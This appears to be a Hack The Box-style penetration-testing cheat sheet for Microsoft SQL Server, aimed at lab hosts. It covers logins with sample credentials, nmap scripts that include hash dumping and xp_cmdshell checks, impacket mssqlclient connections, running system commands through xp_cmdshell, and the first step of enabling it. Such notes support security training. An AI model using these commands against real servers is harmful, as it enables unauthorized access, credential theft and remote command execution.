 # MSSQL
### Linux - SQSH
```
sqsh -S 10.129.20.13 -U username -P Password123
```
When using Windows Authentication, we need to specify the domain name or the hostname of the target machine. If we don't specify a domain or hostname, it will assume SQL Authentication and authenticate against the users created in the SQL Server. Instead, if we define the domain or hostname, it will use Windows Authentication. If we are targetting a local account, we can use SERVERNAME\\accountname or .\\accountname. The full command would look like:
```
sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h
```
### Windows - SQLCMD     
```
C:\htb> sqlcmd -S 10.129.20.13 -U username -P Password123
```

# Footprinting the Service
```
nmap -Pn -sV -sC -p1433 10.10.10.125
```
The scripted NMAP scan below provides us with helpful information. We can see the hostname, database instance name, software version of MSSQL and named pipes are enabled. We will benefit from adding these discoveries to our notes.
```
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248
```
Metasploit to run an auxiliary scanner called mssql_ping 
```
use auxiliary/scanner/mssql/mssql_ping
```
### Connecting with Mssqlclient.py
If we can guess or gain access to credentials, this allows us to remotely connect to the MSSQL server and start interacting with databases using T-SQL (Transact-SQL)
```
python3 mssqlclient.py Administrator@10.129.201.248 -windows-auth
```
Within a domain controller, username and password are operator
```
mssqlclient.py -windows-auth manager.htb/operator:operator@manager.htb
```
```
impacket-mssqlclient -windows-auth manager.htb/operator:operator@manager.htb
```

## Command Execution
MSSQL has a extended stored procedures called `xp_cmdshell` which allow us to execute system commands using SQL. Keep in mind the following about `xp_cmdshell`:
To execute commands using SQL syntax on MSSQL, use:
```
1> xp_cmdshell 'whoami'
2> GO
```
if xp_cmdshell is not enabled, we can enable it, if we have the appropriate privileges, using the following command:
To allow advanced options to be changed.
```
EXECUTE sp_configure 'show advanced options', 1
GO
```